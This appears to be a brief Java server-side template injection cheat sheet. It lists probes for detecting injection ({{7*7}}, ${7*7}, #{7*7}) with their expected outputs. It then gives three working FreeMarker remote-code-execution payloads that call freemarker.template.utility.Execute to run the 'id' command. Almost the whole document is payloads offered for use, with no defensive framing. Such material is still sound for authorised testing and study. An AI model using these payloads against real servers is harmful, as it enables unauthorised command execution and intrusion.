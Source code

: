 #SSTI #java

## Detection
```
{{7*7}}
```
→ {{7*7}}

```
${7*7}
```
→ 49

```
#{7*7}
```
→ 49 (legacy)

```
${7*'7'}
```
→ Nothing

```
${foobar}
```
 → Print var if it exists

## RCE 
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

```
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
```

```
${"freemarker.template.utility.Execute"?new()("id")}
```